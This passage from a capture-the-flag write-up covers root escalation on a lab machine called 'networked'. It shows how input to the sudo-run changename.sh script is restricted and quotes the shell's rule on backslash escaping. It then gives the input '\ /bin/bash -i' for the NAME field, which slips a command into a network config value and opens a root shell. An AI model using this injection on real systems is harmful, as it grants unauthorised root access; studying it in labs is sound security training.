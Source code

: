 ```console
[guly@networked sbin]$ sudo ./changename.sh                         
interface NAME:
UUUUUUUUUUUUUUU
interface PROXY_METHOD:
YYYYYYYYYYYYYYY
interface BROWSER_ONLY:
TTTTTTTTTTTTTTT
interface BOOTPROTO:
RRRRRRRRRRRRRRR
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.

[guly@networked sbin]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=UUUUUUUUUUUUUUU
PROXY_METHOD=YYYYYYYYYYYYYYY
BROWSER_ONLY=TTTTTTTTTTTTTTT
BOOTPROTO=RRRRRRRRRRRRRRR
```

We seem to be limited to the **a-z, A-Z, 0-9, _, /, \, -** characters. I think we should be able to invoke a root-level shell with this. I tried a few different inputs for a couple minutes to see what, if anything changed depending on the inputs. I picked ```/bin/bash -i``` as the command I wanted to use to invoke the root-level shell. Taking a page from the initial access portion, and how I struggled with the php there - I wrote out the pseudocode of the changename.sh script and did not take for granted any of the characters I was given. 

In the manpage for backslash it states:

***( 2.2.1 Escape Character (Backslash)***

***A backslash that is not quoted shall preserve the literal value of the following character, with the exception of a newline. If a newline follows the backslash, the shell shall interpret this as line continuation. The backslash and newline shall be removed before splitting the input into tokens. Since the escaped newline is removed entirely from the input and is not replaced by any white space, it cannot serve as a token separator.)***

I was able to use that to craft a successful escalation:

```console
[guly@networked sbin]$ sudo ./changename.sh                         
interface NAME:
\ /bin/bash -i
interface PROXY_METHOD:
a
interface BROWSER_ONLY:
a
interface BOOTPROTO:
a
[root@networked network-scripts]#
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# cat /root/root.txt
0a8ec********************dcb82
```
